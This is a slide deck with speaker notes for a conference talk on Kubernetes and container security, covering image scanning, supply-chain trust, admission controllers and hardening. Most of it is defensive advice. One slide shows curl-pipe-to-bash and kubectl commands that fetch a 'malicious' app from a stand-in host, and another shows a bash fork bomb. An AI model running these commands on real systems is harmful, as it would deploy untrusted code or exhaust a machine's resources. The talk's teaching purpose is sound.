






# [fit] What vulnerabilities? 
## [fit] *Live hacking of containers and orchestrators*

---

# [fit] Take photos

## [fit] *#ndcoslo*

---

# Agenda

* *About me*
* Why care about security
* Show me the vulnerability
* Containers, Containers, Containers
* Containers running containers?!?
* Orchestrators are cool, yeah
* Going forward

^
A couple of minutes why I'm giving this talk.

---

# Agenda

* About me
* *Why care about security*
* Show me the vulnerability
* Containers, Containers, Containers
* Containers running containers?!?
* Orchestrators are cool, yeah
* Going forward

^
The moment security clicked for me.
Hope to share this today.

---

# Agenda

* About me
* Why care about security
* *Show me the vulnerability*
* Containers, Containers, Containers
* Containers running containers?!?
* Orchestrators are cool, yeah
* Going forward

^
The most common way of exploiting any system externally.

---

# Agenda

* About me
* Why care about security
* Show me the vulnerability
* *Containers, Containers, Containers*
* Containers running containers?!?
* Orchestrators are cool, yeah
* Going forward

^
What can happen in our containers.
How we can build them securely.

---

# Agenda

* About me
* Why care about security
* Show me the vulnerability
* Containers, Containers, Containers
* *Containers running containers?!?*
* Orchestrators are cool, yeah
* Going forward

^
Looking into how containers are managed.
What can kubernetes do to help us.

---

# Agenda

* About me
* Why care about security
* Show me the vulnerability
* Containers, Containers, Containers
* Containers running containers?!?
* *Orchestrators are cool, yeah*
* Going forward

^
Look into the management of Kubernetes.

---

# 🥳

---


## [fit]*Lewis Denham-Parry*
### [fit] @denhamparry

## [fit] *Jetstack: Solutions Engineer*
### [fit] @jetstackhq

## [fit] *Cloud Native Wales: Co-Founder*
### [fit] @cloudnativewal

---


## [fit] Lewis Denham-Parry
### [fit] *@denhamparry*

## [fit] Jetstack: Solutions Engineer
### [fit] *@jetstackhq*

## [fit] Cloud Native Wales: Co-Founder
### [fit] *@cloudnativewal*

---

# [fit] *Mental* Health

---

# [fit] Climate *Change*

---


# [fit] NDC*OSLO*2017

---

# [fit] Community

---

# [fit] Who's *here*?

---

# [fit] *Not* a security expert

---

# [fit] Inspiration

## [fit] *https://youtu.be/iWkiQk8Kdk8*

^
I'm not a security person.
Met a chap called Andy at Warpigs.
I was drunk, he was making slides in bash.
I looked at one of his talks.

---


---

# [fit] *Thank you*

## Andrew Martin
### *@sublimino*
## Ben Hall
### *@ben_hall*

---

# [fit] Tesla

---



---

# [fit] kubernetes *dashboard*

---



---

# 2/20/2018

^
WTF is this date?

---

# 20/2/2018

---

# [fit] 2018-02-20T10:44:31+00:00

^
Nice story Lewis.
This is over a year ago.

---

# [fit] Pop *quiz*

^
Who thinks that this is still an issue?

---

# [fit] https://www.shodan.io/search?query=*KubernetesDashboard*

^
Go to browser

---



---

# [fit] *First* reaction

^
This is how I felt about this.

---

# 😯

^
So how do we feel about this.

---

# [fit] Don't use
# [fit] *kubernetes*

^
Thank you

---

# [fit] Goodnight

# *✌*

^
That is an option.
But is there a better option.

---

# [fit] Where do we 
# [fit] *learn*

^
Whats the next step for us to learn this?

---


---





---

# [fit] Lets get *started*

---

# [fit] Vulnerabilities

---

## Has anyone *knowingly* created a *vulnerability*?

^
Hands up

---

# [fit] OWASP

---


---

# [fit] Demo *1*

## Lets own a website

---

# [fit] Lets *review*

^ What just happened

---

* We injected script into an application.
* We were able to run a remote script from a jumpbox.
* We could look inside the file system.

---

# [fit] What is a *vulnerability*?

^
Flaw in code that an attacker can exploit.
Undesirable consequences.

---


# Example

## Heartbleed

^
The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. This weakness allows stealing the information protected, under normal conditions, by the SSL/TLS encryption used to secure the Internet. SSL/TLS provides communication security and privacy over the Internet for applications such as web, email, instant messaging (IM) and some virtual private networks (VPNs).
The Heartbleed bug allows anyone on the Internet to read the memory of the systems protected by the vulnerable versions of the OpenSSL software. This compromises the secret keys used to identify the service providers and to encrypt the traffic, the names and passwords of the users and the actual content. This allows attackers to eavesdrop on communications, steal data directly from the services and users and to impersonate services and user

---

# [fit] How can we *prevent* this?

---

# [fit] Image scanning

^
Break this down into what we can scan in containers.

---

# [fit] Image scanning

## [fit] *Packages and files*

^
This is your code base.
If this is a website, this could be npm.
A service might be nuget packages.
Monolith could be everything.

---

# [fit] Image scanning

## [fit] *Static tokens and passwords*

^
I'll put that into a config file tomorrow.
Check it in, shit.

---

# [fit] Image scanning

## [fit] *Third party images*

^
Can we trust these images.
Nope.
Scan these against known bad images.

---

# Tools

* *Clair* (CoreOS)
* *Microscanner* (Aqua Security)

---

# [fit] TIP: *Scheduled builds*

^
This should be part of a CI/CD process.
If you're using microservices.
Some code isn't checked in often.
Scheduled builds can check these images.
E.g. Every 24 hours.

---

# [fit] Focus on *CI/CD*

^
Run this during you build process.

---

# [fit] *Fail* if its not secure

^
This sounds harsh but it isn't.
If you're working on a project, check it in.
You get the quick feedback loop.
Think of onboarding new team members.

---

# [fit] Don't *ssh* to patch

^
In Docker and Kubernetes.
We exec instead of ssh.
This is an anti-pattern of microservices.
Can cause drift.
What happens if someone else gets in?

---

# [fit] Reduce the *attack vector*

^
Don't leave things in your images.
We've seen what we can do with bash.
Some people just have binaries running in their images.

---

# *Private* container registries

^
Public is great.
But anyone can add to it.
Have a registry that only a verified process can push to.
Hosted cloud versions.
Also other offerings.

---

# How do we *define* our images?

---

# [fit] denhamparry/myimage*:latest*

^
This is bad as we don't know what we're running

---

# [fit] denhamparry/myimage*:0.0.1*

^
Better than latest because we're specifying a version.

---

# [fit] denhamparry/myimage*@sha256:45lnf43mkde...*

^
Maybe overkill but we specifically know the image being run

---

# [fit] *Always* 

# [fit] pull latest

^
Caching images can be great for local dev.
If you're on a train for example.
Pulling down images isn't great on mobile.
In production this is different.

---

# [fit] *Image trust* and supply chain

^
How do we know what we're running is what we built?

---

# [fit] *Case study*

## [fit] tylenol cyanide deaths

---



---

# Tools

* The TUF Project
* Notary
* Grafeas

---

# [fit] Running *containers*

# [fit] on *Kubernetes*

---

# [fit] What could *possibly* go wrong?

---

# Exfiltration of sensitive data

---

# [fit] Elevate privileges
# [fit] inside Kubernetes to 
# [fit] access all workloads

---

# [fit] Potentially Gain root access 
# [fit] to the Kubernetes worker nodes

---

# [fit] Perform lateral 
# [fit] network movement 
# [fit] outside the cluster

---

# [fit] Run compromised Pod

---

```
$ kubectl create -f http://Insert_Malicious_URL_here/FakeApp.yaml
```

```
$ curl SRI-Tools.com/fakeapp.sh | bash
$ Kubectl create –f http://SRI-Tools.com/k8s/FakeApp.yaml
```

---

# [fit] *Secure* by default yeah?

---


---

# [fit] *Feature* driven

---

# [fit] Security *follows

---

# [fit] Best *Practice*

---

# Least *Privileged*

^
Focus on this with task at hand.

---

# Reduce *host mounts*

^
More dependencies onto a node can cause more issues.

---

# [fit] *Limit* communications

^
A cluster has its own network.
If everything can connect to eachother, bad things can happen.

---

# Don't use *root*

^
A few exceptions.
Running on the nodes kernel.
Running on privaledged ports on the node.
K8S services.
Installing things onto the container.
Decent CI/CD should prevent this from happening.

---

# How to run as a non-root user?

---

# User command in Dockerfile.

--

# Potential risks: *API*

---

# Master and Workers

---

# Control Plane

---

# API

---

# [fit] Demo *2*

## [fit] Show me the *api*

---

# [fit] *Admission* controller

^
This happens after authentication and authorisation.
Will discuss that after.
Before committing this into etcd.
There are lots of admission controllers to choose from.
Here's a selection.

---

# [fit] AlwaysPullImages

^
Modifies pod pull policy to always overwriting default.
If other pods run on the same node, they use the cached image.
This avoids registry checks.

---

# [fit] DenyEscalatingExec

^
Prevent exec and attach command to escalated pods.
Stop getting into privileged containers.

---

# PodSecurityPolicy

^
This determines how a pod can be run.
Determines if it should be run based on policies.

---

# TODO: More information on PodSecurityPolicies

---

# [fit] LimitRange
# [fit] ResourceQuota

^
Observes incoming requests.
Ensures it doesn't violate any of the constraints.
Helps prevent ddos attacks.

---

# ResourceQuota

| Name | Description |
| --- | --- |
| cpu | Total requested cpu usage |
| memory | Total requested memory usage |
| pods | Total number of active pods where phase is pending or active.|
| services | Total number of services |
| replicationcontrollers | Total number of replication controllers |
| resourcequotas | Total number of resource quotas |
| secrets | Total number of secrets |
| persistentvolumeclaims | Total number of persistent volume claims |

^
Example of what we can limit with a resource quota.

---

# [fit]NodeRestrictions

^
Limits the restrictions on the kubelet.

---

# TODO: Kubelet

---

# [fit] https://kubernetes.io/docs/tasks/administer-cluster/securing-a-cluster/

Authentication
Authorisation (RBAC)
Network Segmentation
PodSecurityPolicy
Encrypt Secrets
Audit Everything
Admission Controllers

---

# [fit] Admission Controller

^
Operates on the API server
Intercepts requests prior to persistence of the object to the etcd DB
but after the request has been authenticated and authorized
Can only be configured by the cluster administrator

---

# [fit] It's just an API

^
Lets break Kubernetes down.
Away from everything else, we connect to an API.
Would you have an open API?

---

# More detail

---

# [fit] Layered security approach



* AlwaysPullImages
* DenyEscalatingExec
* PodSecurityPolicy
* ImagePolicyWebhook
* NodeRestriction
* PodNodeSelector
* ResourceQuota

---

# [fit] AlwaysPullImages

^
Prevent reusing images.
Images can only be used by those who have the credentials to pull them.
Any pod from any user can use the image by knowing the image’s name.

---

# [fit] DenyEscalatingExec

^
Prevent privilege escalation (exec or attach) via pods running with
* privileged: true
* Host IPC namespace
* Host PID namespace
If your cluster supports containers that run with escalated privileges, restrict the ability of end-users to exec commands in those containers, using this admission controller.

---

# [fit] PodSecurityPolicy

^
Privileged containers
Root namespaces
Volume types
Read only root file system
UID, GID of the container
SELinux/AppArmor context
seccomp profile
By Default there is no  Selinux/AppArmor/seccomp profile

---

# [fit] NodeRestriction

---

# [fit] :(){ :|:& };:

---

# [fit] Tools

---

# [fit] Aqua

---

## Kube-Hunter

---

## Kube-Bench

---

# Microscanner

```Dockerfile
FROM debian:jessie-slim
RUN apt-get update && apt-get -y install ca-certificates
ADD https://get.aquasec.com/microscanner
RUN chmod +x microscanner
ARG token
RUN /microscanner ${token} && rm /microscanner
```

---

### [fit] https://github.com/aquasecurity
### [fit] https://www.aquasec.com/

---

# [fit] Control Plane

---

## KUBESEC.io

---

### [fit] https://kubesec.io
### [fit] https://control-plane.io

---

# [fit] Development best practices

## Safe place

---

# Scheduled builds

---

# Release

---

# Chaos

---

# [fit] Thank You(s)

* Andrew Martin (@sublimino)
* Benjy Portnoy (@AquaSecTeam)
* Liz Rice (@lizrice)
* Rory McCune (@raesene)
* Aled James (@a\_ll\_james)

---

# Todo

https://cloud.google.com/kubernetes-engine/docs/how-to/hardening-your-cluster
https://cloud.google.com/solutions/best-practices-for-operating-containers
https://www.youtube.com/watch?v=2XCm7vveU5A


Authentication
Authorization (RBAC)
Network Segmentation 
PodSecurityPolicy
Encrypt Secrets
Admission Controllers 
Audit Everything 

https://kubernetes.io/docs/tasks/administer-cluster/securing-a-cluster/